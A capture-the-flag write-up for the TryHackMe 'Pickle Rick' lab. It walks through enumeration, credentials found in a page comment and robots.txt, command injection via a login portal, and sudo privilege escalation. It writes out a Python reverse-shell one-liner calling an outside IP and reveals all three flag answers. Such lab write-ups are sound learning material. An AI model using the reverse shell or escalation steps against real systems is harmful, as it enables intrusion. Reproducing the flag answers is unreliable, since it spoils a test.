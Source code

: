 # Pickle Rick
`url = https://tryhackme.com/room/picklerick`
`date = 05/22/2023`
`export IP='10.10.160.253'`

## Enumeration

1. Network Enumeration
```bash
Open 10.10.160.253:22
Open 10.10.160.253:80
```
* We can see that ports `22` & `80` are open which means that there is a website that can be enumerated. Other than that SSH is open as well.

2. Directory Bruteforcing
* On the website's landing page we can see a comment - `R1ckRul3s` as the username. We can save this for later.

* The following directories are available from dirsearch -
```bash
/assets
/index.html
/login.php
/robots.txt
```
* From the robots.txt we can also find another string that might be some kind of password that can be saved for later - `Wubbalubbadubdub`.
---

## Exploitation

1. From the given username - `R1ckRul3s` & password - `Wubbalubbadubdub`, we can now get login to the portal - `/login.php`.

2. Here there is a text field that can execute commands. From revshells page, we can get a python one liner that will setup a reverse shell to our system:
```bash
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.6.36.128",1235));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```
---

## Post Exploitation
1. Once we have the reverse shell, cat out the first flag `Sup3rS3cretPickl3Ingred.txt` - "mr. meeseek hair".

2. The second flag can be found in `/home/rick/second ingredients` - "1 jerry tear".

3. The third flag can be found in the `/root` directory. Checking the output of the `sudo -l` command, we find that the user `www-data` can run all commands on this machine. Hence, directly running the command `sudo -su` without a password gives us access to the root user.

4. The final flag is "fleeb juice".

fin.